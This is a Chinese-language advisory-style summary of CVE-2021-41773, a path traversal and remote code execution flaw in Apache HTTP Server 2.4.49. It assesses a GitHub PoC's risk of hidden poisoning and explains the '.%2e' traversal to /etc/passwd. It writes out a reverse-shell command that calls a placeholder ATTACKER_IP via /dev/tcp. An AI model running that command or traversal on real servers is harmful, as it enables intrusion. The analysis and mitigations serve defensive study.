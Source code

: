 ## CVE-2021-41773 Apache HTTP Server Path Traversal & Remote Code Execution

**漏洞编号:** CVE-2021-41773

**漏洞类型:** 路径遍历和远程代码执行

**影响应用:** Apache HTTP Server

**危害等级:** 高危，可读取敏感文件并远程执行代码

**影响版本:** 2.4.49

**利用条件:** 目标服务器运行Apache HTTP Server 2.4.49，并且启用了CGI脚本执行。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

根据漏洞库信息、搜索结果和提供的漏洞利用代码，该漏洞利用具有较高的有效性。

**有效性：**

*   漏洞库明确指出该漏洞已被在野利用。
*   搜索结果显示该漏洞允许未经身份验证的攻击者读取敏感信息并执行任意代码。
*   提供的POC代码包含利用路径遍历读取`/etc/passwd`文件的脚本以及通过CGI执行反向shell的脚本，证明了漏洞的可利用性。

**投毒风险：**

虽然POC代码本身实现了明确的漏洞利用功能，但考虑到其来源的安全性无法完全保证，仍存在潜在的投毒风险。具体分析如下：

*   代码的功能相对简单直接，主要依赖于`curl`命令发送HTTP请求。潜在的投毒方式可能包括：
    *   **变量替换：** 攻击者可能尝试修改`TARGET_IP`或`ATTACKER_IP`变量，将利用流量引导至恶意服务器。
    *   **命令注入：** 攻击者可能尝试通过修改`URL`或`POST`数据中的参数，实现命令注入，从而执行恶意代码。虽然在提供的代码中直接注入恶意代码的难度较高，但仍然不能完全排除这种可能性。
    *   **依赖库问题：** 虽然POC主要依赖`curl`和`bash`，但如果运行环境存在其他未知的依赖库，可能存在通过这些依赖库进行投毒的风险。

由于代码较为简短，且功能较为直接，恶意代码隐藏的空间有限。因此，投毒风险相对较低，估计在10%左右。

**利用方式：**

该漏洞的利用方式如下：

1.  **路径遍历：** 利用Apache HTTP Server 2.4.49在路径规范化方面的缺陷，通过构造包含`.%2e`的URL，绕过Alias-like指令的限制，访问服务器上的任意文件。如果目标文件没有被"require all denied"等配置保护，则可以成功读取文件内容，例如`/etc/passwd`。
2.  **远程代码执行：** 如果服务器配置允许CGI脚本执行，攻击者可以通过构造特殊的HTTP POST请求，将恶意代码作为CGI脚本的输入，从而在服务器上执行任意命令。例如，可以使用`bash -i >& /dev/tcp/$ATTACKER_IP/$PORT 0>&1`命令建立反向shell，从而完全控制目标服务器。

**防范措施：**

*   升级到Apache HTTP Server 2.4.50或更高版本。
*   配置"require all denied"，限制对敏感文件的访问。
*   禁用不必要的CGI脚本执行。
*   监控服务器日志，及时发现异常请求。

**项目地址:** [khaidtraivch/CVE-2021-41773-Apache-2.4.49-](https://github.com/khaidtraivch/CVE-2021-41773-Apache-2.4.49-)

**漏洞详情:** [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)